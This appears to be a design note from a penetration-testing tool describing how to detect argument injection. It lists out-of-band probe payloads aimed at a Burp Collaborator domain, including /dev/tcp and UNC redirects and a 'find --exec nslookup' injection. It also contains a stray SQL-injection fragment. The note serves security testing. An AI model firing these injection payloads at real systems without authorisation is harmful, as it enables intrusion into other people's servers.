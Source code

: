 # Detecting argument injection
Apart from differences in application's response, we might dalso detect argument injection by:
- reference injection- we supply an argument that, if interpreted properly, will ensue a network response (e.g. a DNS lookup, HTTP/FTP/SMB interaction etc) - this can be bruteforced
- command injection through the target-specific argument - we supply an arbitrary command into a command-specific flag - which is our "base" command in SHELLING (doing whatever the setting is, e.g. a lookup or sleep/selfping)  - this is rather hardcoded, e.g. "find / -name <INJECTION>" with injection "a --exec nslookup PAYLOAD_MARK.BURP_COLLAB_DOMAIN".



## Reference injection
In the first approach we have no idea what is the target command we are injecting arguments into. The main assumption is that there are only letters, uppercase letters and digits (the last not likely to take any argument values, though) that can represent short flags in formats:

    COMMAND -FLAG ( '=''or')
(%' or '0'='0)
    COMMAND /FLAG

At this point we do not attempt to bruteforce any full names (long versions of the flags), like:

    COMMAND --FULL_FLAGNAME

Good candidates for values are:

    smb://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    file://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    http://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    ftp://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 

Additionally these are worth checking too:

    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a
    > /dev/tcp/wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/80
    
This might as well work with injections like (plus the nix variant from above):

    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a<NULLBYTE>
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a<POOTERMINATOR>
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a::COMMENT OUT

whereas neither command nor argument separators are allowed, but we can redirect the outpt to an arbitrary local file (which might be very good too :D). 



## Command inejction
In this case we check for particular flags in particular binaries (assuming that the matching binary is being executed on the server), e.g. --exec in find, -O in wget or /c in some windows commands.


## Syntax
We should still keep in mind quotes in the final expression syntax might make our payload fail, hence we need to make sure we also create and evaluate proper test cases while developing this feature.

This is all experimental.
